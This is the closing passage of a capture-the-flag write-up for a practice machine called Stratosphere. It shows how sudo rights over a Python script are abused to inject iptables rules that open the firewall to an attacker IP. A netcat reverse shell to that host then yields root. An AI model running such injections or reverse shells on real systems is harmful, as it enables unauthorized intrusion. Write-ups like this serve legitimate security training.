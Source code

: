 Thus, given that we can run commands as sudo, we can apply some rules ourselves in order to bypass the firewall for a specific IP. Upon getting the shell, it can be upgraded with python's tty in order to get a prompt (which I think is a bit nicer).

The commands used to apply the rules were:


```sh
echo '__import__("os").system("/sbin/iptables -A INPUT -p tcp -s 10.10.14.137 -j ACCEPT")' | sudo /usr/bin/python2.7 /home/richard/test.py

echo '__import__("os").system("/sbin/iptables -A OUTPUT -p tcp -d  10.10.14.137 -j ACCEPT")' | sudo /usr/bin/python2.7 /home/richard/test.py
```

Then, passing ```nc [ip] [port] -e /bin/sh``` as the argument to the test.py script I finally get my shell.

*Root shell*

![Img](/assets/posts_details/Stratosphere/images/root_shell.png "Img")

---

Without doubt one of the coolest machines I've owned so far, it shows some real vulnerabilities and makes you learn that there are unexpected ways of achieving a goal (with the hashes, I mean).

*Diego Bernal Adelantado*
